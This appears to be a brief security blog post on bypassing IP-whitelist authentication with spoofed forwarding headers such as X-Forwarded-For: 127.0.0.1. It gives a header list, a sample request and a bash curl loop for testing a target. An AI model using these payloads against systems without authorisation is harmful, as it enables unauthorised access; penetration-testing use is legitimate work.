 # Auth Bypass Headers"

Adapted from this tweet:

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">I have found multiple auth bypass issues using below Headers<a href="https://twitter.com/hashtag/bugbountytips?src=hash&amp;ref_src=twsrc%5Etfw">#bugbountytips</a> <a href="https://twitter.com/hashtag/bugbounty?src=hash&amp;ref_src=twsrc%5Etfw">#bugbounty</a> <a href="https://t.co/R82TXWiyDX">pic.twitter.com/R82TXWiyDX</a></p>&mdash; ¯\_(ツ)_/¯85 (@BountyOverflow) <a href="https://twitter.com/BountyOverflow/status/1555786315232206848?ref_src=twsrc%5Etfw">August 6, 2022</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script> 

The following headers can potentially be used to bypass authentication on a webserver.

- X-Forwarded: 127.0.0.1
- X-Forwarded-By: 127.0.0.1
- X-Forwarded-For: 127.0.0.1
- X-Forwarded-For-Original: 127.0.0.1
- X-Forwarder-For: 127.0.0.1
- X-Forward-For: 127.0.0.1
- Forwarded-For: 127.0.0.1
- Forwarded-For-Ip: 127.0.0.1
- X-Custom-IP-Authorization: 127.0.0.1
- X-Originating-Ip: 127.0.0.1
- X-Remote-IP: 127.0.0.1
- X-Remote-Addr: 127.0.0.1
- X-Trusted-IP: 127.0.0.1
- X-Requested-By: 127.0.0.1
- X-Requested-For: 127.0.0.1

## Example Usage

Scenario: You try to access `/login` and get a custom `401` response that says something like:

`IP not on Whitelist!`

(not a likely response but serves as an example)

You'd then try and send the following request:

```bash
GET /login HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Host: bullsec.xyz
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Connection: Keep-Alive
X-Forwarded-For: 127.0.0.1
```

> That endpoint doesn't exist on this site this is not a lab.
{: .prompt-warning}

The idea is that the webserver will parse the `X-Forwarded-For` header and assume that the request has been forwarded to it on behalf of `127.0.0.1` / `localhost` and let you access the "Blocked" `/login` endpoint. 

## Automation Block

```bash
X-Forwarded: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded-For-Original: 127.0.0.1
X-Forwarder-For: 127.0.0.1
X-Forward-For: 127.0.0.1
Forwarded-For: 127.0.0.1
Forwarded-For-Ip: 127.0.0.1
X-Custom-IP-Authorization: 127.0.0.1
X-Originating-Ip: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Trusted-IP: 127.0.0.1
X-Requested-By: 127.0.0.1
X-Requested-For: 127.0.0.1
```

> Copy the above into a text file

```bash
TARGET=<target-ip-address>
for x in $(cat headers.txt);do curl -v $TARGET -H "$x" ; done
```

That's your lot.

Enjoy,

